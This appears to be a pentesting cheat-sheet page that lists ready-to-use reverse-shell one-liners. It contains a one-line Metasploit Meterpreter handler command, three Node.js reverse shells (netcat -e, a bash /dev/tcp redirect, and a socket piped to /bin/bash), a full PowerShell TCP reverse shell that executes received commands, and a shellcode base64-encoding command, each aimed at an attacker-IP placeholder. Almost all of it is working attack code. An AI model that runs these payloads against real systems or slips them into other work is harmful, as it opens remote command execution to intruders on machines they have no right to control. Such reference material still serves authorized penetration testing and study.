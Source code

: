 # Miscellaneous

---

### Table of Contents
- [Metasploit Handler Oneliner](#metasploit-handler-oneliner)
- [Reverse Shells](#reverse-shells)
  * [JavaScript](#javascript)
  * [PowerShell](#powershell)

---

## Metasploit Handler Oneliner
- Create a `Metasploit` handler in one line

```bash
# E.g. Metapreter Reverse TCP
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <attacker_ip>;set LPORT <port>;run;"
```

## Reverse Shells
- Different stuff related to reverse shells

### JavaScript
- Context specific, e.g. `nodejs` (here: without URL encode)

```js
// NOT OpenBSD netcat, doesn't know -e
require("child_process").exec('nc <attacker_ip> <port> -e /bin/bash')

// Important: Use backticks here
process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'`)

// Another approach
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(4444, "<attack_ip>", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

### PowerShell
- Simple oneliner for creating a `powershell` reverse shell

```powershell
# Oneliner
$client = New-Object System.Net.Sockets.TCPClient('<attacker_ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
```

-  Encode shell

```bash
iconv -f ASCII -t UTF-16LE shellcode.txt | base64 | tr -d "\n"
```

